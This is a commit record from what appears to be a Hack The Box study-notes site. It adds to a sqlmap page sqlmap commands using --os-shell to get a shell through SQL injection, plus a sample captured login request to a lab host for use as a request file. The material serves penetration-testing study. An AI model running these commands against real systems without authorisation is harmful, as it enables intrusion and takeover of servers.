

Before and after one commit to jd-apprentice/hack-the-box, an MkDocs documentation site: the page built from docs/software/sqlmap.md, in a window 1280 px wide and 900 px high, scrolled down 597 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1023 px from its top, so only the background shows below that.

Commit message:
docs(update): added a few things

````diff
--- a/docs/software/sqlmap.md
+++ b/docs/software/sqlmap.md
@@ -28,6 +28,39 @@
 - `D` DBMS database to enumerate
 - `--dump` Dump DBMS database table entries
 
+To obtain a reverse shell we can use:
+
+```bash
+sqlmap -u <URL> --data '{"<FIELD>": "*" }' --threads <NUMBER> --os-shell --batch
+```
+
+And we can use a request file to avoid the need of the URL:
+
+```bash
+sqlmap -r <request_file> --threads <NUMBER> --os-shell --batch
+```
+
+A request file would look something like this:
+
+```
+POST /dirb_safe_dir_rf9EmcEIx/admin/dologin.php HTTP/1.1
+Host: www.securewebinc.jet
+Content-Length: 25
+Cache-Control: max-age=0
+Upgrade-Insecure-Requests: 1
+Origin: http://www.securewebinc.jet
+Content-Type: application/x-www-form-urlencoded
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
+Referer: http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/login.php
+Accept-Encoding: gzip, deflate, br
+Accept-Language: en-US,en;q=0.9
+Cookie: PHPSESSID=2jn4imainfddc3vatcddfoafg5
+Connection: close
+
+username=admin&password=a
+```
+
 ## Docs
 
 - https://github.com/sqlmapproject/sqlmap/wiki/Usage
````
Also changed, not shown: docs/software/burp.md (+10 -0 lines), docs/web/dns.md (+14 -0 lines), docs/software/assets/intercept.png (added).
